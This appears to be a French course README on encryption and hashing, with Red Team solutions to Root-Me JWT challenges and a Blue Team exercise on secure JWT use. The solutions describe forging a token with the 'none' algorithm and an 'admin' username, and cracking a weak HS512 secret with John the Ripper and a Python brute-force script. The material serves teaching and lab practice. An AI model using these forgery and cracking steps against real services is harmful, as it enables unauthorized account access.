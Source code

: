 
# Algorithmes d'encryption et hashage 

- [Présentation 2](https://docs.google.com/presentation/d/1X7ZIxAHNhV_0mTFzMVjjFFogl8tb2AlS5vEF75zchjk/edit#slide=id.p)
- [L'Algorithme qui Sécurise Internet](https://www.youtube.com/watch?v=1Yv8m398Fv0)


## Exercices

### 🔴Red Team : pénétrer un système à faible sécurité de JWT

Hacker Time !! Vous allez mettre votre masque d'anonymous et commencer votre carrière de black hat. 

#### Challenge 1 : Introduction JSON Web Token

[Challenges/Web - Serveur : JSON Web Token (JWT) -...](https://www.root-me.org/fr/Challenges/Web-Serveur/JWT-Introduction)

Solutions : 

-Récupérer le JWT du challenge via la console du navigateur ( Applications > Cookies )
- Décoder avec l'outil JWT encode/decode
- Remplacer l'algorithme par "none"
- Remplacer le username dans la payload par "admin"
- Remplacer le JWT obtenu dans les cookies de la console du navigateur et recharger la page


#### Challenge 2 : Secret Faible

[Challenges/Web - Serveur : JSON Web Token (JWT) - Secret... ](https://www.root-me.org/fr/Challenges/Web-Serveur/JWT-Secret-faible)


Solutions : 
1 
- Enregistrer le token dans un fichier txt
- Installer le programme John The Ripper et déclencher la commande suivante : 
`john jwt.txt --format=HMAC-SHA512`


2 
```python
import jwt

arrayCombine = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z',1,2,3,4,5,6,7,8,9,0,""]

encoded_jwt  = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw"

# 4 boucles for = 4 caractères max pour le secret

for i in range (len(arrayCombine)):
    for j in range (len(arrayCombine)):
        for k in range (len(arrayCombine)):
            for l in range (len(arrayCombine)):
                secret = str(arrayCombine[i]) + str(arrayCombine[j]) + str(arrayCombine[k]) + str(arrayCombine[l])
                try:
                    jwt.decode(encoded_jwt, secret, algorithms=["HS512"])
                    print("the secret word is : " + str(secret))
                    break 
                except:
                    pass
```
#### 🔵Blue Team : Implémenter un JWT sécurisé

Si ce n'est pas déja la cas votre objectif sera de mettre en place l'authentification via un JWT sur votre application

- Comment fonctionne le JWT sur vos frameworks ?
- Quel Algorithme utilise t'ils ? 
- Votre token est-il inviolable ?
- Et le secret ?
